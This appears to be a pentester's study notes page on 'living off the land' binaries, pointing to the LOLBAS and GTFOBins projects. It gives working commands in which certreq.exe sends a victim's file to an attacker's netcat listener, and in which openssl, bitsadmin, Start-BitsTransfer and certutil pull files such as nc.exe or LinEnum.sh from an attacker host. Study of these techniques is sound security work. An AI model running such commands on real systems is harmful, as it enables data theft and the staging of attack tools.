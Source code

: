 ```yaml
---
title: LOLbins - Living off the land binaries - LOLbas and GTFObins
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - resources
  - binaries
  - pentesting
---
```


# LOLbins - "Living off the land" binaries: LOLbas and GTFObins

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)



## Windows - LOLBAS

### CertReq.exe 

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

```bash
# From the victim's machine we can sec for instance file.txt to our kali
certreq.exe -Post -config http://$ipKali c:\folder\file.txt

# From the kali machine, the attacking one, we use a netcat session
sudo nc -lvnp 80
```


## Linux - GTFOBins

### OpenSSL

```bash
# Create Certificate in our attacker machine
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up the Server in our attacker machine
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

# Download File to the victim's Machine, but run command from the attacker kali
openssl s_client -connect $ipVictim:80 -quiet > LinEnum.sh
```


## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

```powershell
# File Download with Bitsadmin
bitsadmin /transfer wcb /priority foreground http://$ip:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

```powershell
# Download
Import-Module bitstransfer; Start-BitsTransfer -Source "http://$ip/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Download a File with Certutil

Certutil can be used to download arbitrary files.

```cmd
certutil.exe -verifyctl -split -f http://$ip/nc.exe
```

